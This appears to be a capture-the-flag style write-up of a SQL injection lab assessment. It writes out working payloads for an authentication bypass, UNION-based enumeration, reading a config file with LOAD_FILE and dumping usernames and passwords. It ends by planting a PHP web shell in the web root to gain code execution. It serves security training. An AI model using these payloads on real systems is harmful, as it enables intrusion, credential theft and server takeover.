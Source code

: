 # 🏗️ Skills Assessment - SQL Injection Fundamentals

_**Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.**_

<figure><img src="../../../.gitbook/assets/image (1295).png" alt=""><figcaption><p>admin' OR 1=1-- -</p></figcaption></figure>

```
' UNION SELECT 1,2,3,4,5-- -
```

<figure><img src="../../../.gitbook/assets/image (1296).png" alt=""><figcaption></figcaption></figure>

```
' UNION SELECT 1,@@version,3,4,5-- -
```

<figure><img src="../../../.gitbook/assets/image (1297).png" alt=""><figcaption></figcaption></figure>

```
' UNION SELECT 1,user(),3,4,5-- -
```

<figure><img src="../../../.gitbook/assets/image (1298).png" alt=""><figcaption><p>root@localhost,</p></figcaption></figure>

```
' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3,4,5-- -
```

<figure><img src="../../../.gitbook/assets/image (1299).png" alt=""><figcaption></figcaption></figure>

```
' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/shell.php'-- -
```

<figure><img src="../../../.gitbook/assets/image (1300).png" alt=""><figcaption><p>Can't create/write to file '/var/www/html/shell.php' (Errcode: 13 "Permission denied")</p></figcaption></figure>

So we don't have rights, i guess i have to switch users:

```
' UNION select 1,database(),3,4,5-- -
```

<figure><img src="../../../.gitbook/assets/image (1301).png" alt=""><figcaption><p>name of the current database</p></figcaption></figure>

```
' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES where table_schema='ilfreight'-- -
```

<figure><img src="../../../.gitbook/assets/image (1302).png" alt=""><figcaption></figcaption></figure>

```
' UNION select 1,username,password,4,5 from ilfreight.users-- -
```

<figure><img src="../../../.gitbook/assets/image (1303).png" alt=""><figcaption></figcaption></figure>

let's go and connect as adam with the command `adam'OR 1=1-- -`

```
cn' union select 1,'<?php system($_REQUEST[0]); ?>',3,4,5 into outfile '/var/www/html/dashboard/payload.php'-- -
```

<figure><img src="../../../.gitbook/assets/image (1304).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1306).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1305).png" alt=""><figcaption></figcaption></figure>

Big win :tada:
